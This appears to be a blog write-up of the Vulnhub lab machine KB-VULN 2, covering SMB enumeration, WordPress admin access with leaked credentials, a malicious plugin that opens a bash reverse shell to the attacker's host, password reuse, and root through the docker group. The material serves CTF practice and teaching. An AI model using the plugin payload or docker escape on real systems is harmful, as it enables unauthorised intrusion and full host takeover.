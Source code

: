 ```yaml
---
title: Vulnhub - KB-VULN 2
description: My writeup on KB-VULN 2 box.
categories:
 - vulnhub
tags: vulnhub smb wordpress docker
---
```


![](https://i.imgur.com/BYdU05H.png)

You can find the machine there > [KB-VULN 2](https://www.vulnhub.com/entry/kb-vuln-2,562/){:target="_blank"}

## Summary

Time for the part 2 haha :P We start by finding a backup file using SMB, this file gives us some creds for wordpress. We login in and we get reverse shell, first privesc is simple we can use the same password and privesc to root is a simple docker exploitation. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00048s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:56:FE:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Let's start with SMB enumeration, let's list the shares.

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.20:445	Name: kb-server.zte.com.cn                              
        Disk                                        Permissions	Comment
	----                                               -----------	-------
	Anonymous                                         	READ ONLY	  OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	  IPC Service (Samba Server 4.7.6-Ubuntu)
```

Let's connect to anonymous & download the file.

```
$ smbclient //$ip/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Thu Sep 17 13:58:56 2020
  ..                                  D        0  Wed Sep 16 13:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 13:58:56 2020

		14380040 blocks of size 1024. 8275680 blocks available
smb: > get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (83809.6 KiloBytes/sec) (average 83809.7 KiloBytes/sec)
smb: > exit
```

`backup.zip` has a .txt file and a wordpress installation folder. The .txt has some creds in:

```
$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
```

Let's check port 80 now, we can start with a `dirb` scan.

```
$ dirb http://192.168.1.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 15:58:13 2020
URL_BASE: http://192.168.1.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.20/ ----
+ http://192.168.1.20/index.html (CODE:200|SIZE:10918)                                                                                                                                  
+ http://192.168.1.20/server-status (CODE:403|SIZE:277)                                                                                                                                 
==> DIRECTORY: http://192.168.1.20/wordpress/
```

Nice! a wordpress site, now makes sense. Takes time to load and we endup with an error message probably virtual hosts we can see on URL this:

![](https://i.imgur.com/IW2itrt.png)

Let's add it to `/etc/hosts`:

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.20    kb.vuln
```

Now we can head to `/wp-admin` and login with the creds we found before. `admin:MachineBoy141`

## Shell as www-data

Now i'll show you a way to make a custom malicious plugin for reverse shell! This will be our plugin:

```
<?php
   /*
   Plugin Name: pwned
   Version: 6.9
   Author: whoknows
   */

system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
?>
```

Let's zip it:

```
$ zip plugin.zip shell.php 
  adding: shell.php (deflated 11%)
```

Follow my steps:

![](https://i.imgur.com/H5VaTi8.png)

![](https://i.imgur.com/av4IDKC.png)

![](https://i.imgur.com/z6baZHl.png)

![](https://i.imgur.com/LlNDDNP.png)

Once you press activate plugin we get a reverse shell back! :sunglasses:

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@kb-server:/var/www/html/wordpress/wp-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@kb-server:/var/www/html/wordpress/wp-admin$ 
```

## Shell as kbadmin

We can use the same password now to privesc to user kbadmin.

```
www-data@kb-server:/var/www/html/wordpress/wp-admin$ su - kbadmin
Password: MachineBoy141

kbadmin@kb-server:~$ whoami;id
kbadmin
uid=1000(kbadmin) gid=1000(kbadmin) groups=1000(kbadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),999(docker)
```

## Shell as root

User kbadmin is in docker group we can simply run this and get root shell!

```
kbadmin@kb-server:~$ groups
kbadmin adm cdrom sudo dip plugdev lxd docker
```

```
kbadmin@kb-server:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Pull complete 
127c9761dcba: Pull complete 
d13bf203e905: Pull complete 
4039240d2e0b: Pull complete 
16a91ffa6f29: Pull complete 
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags:

```
# cat flag.txt
dc387b4cf1a4143f562dd1bdb3790ff1
# cat /home/kbadmin/user.txt
03bf4d20dac5644c75e69e40bad48db0
```

Good one! :smile:
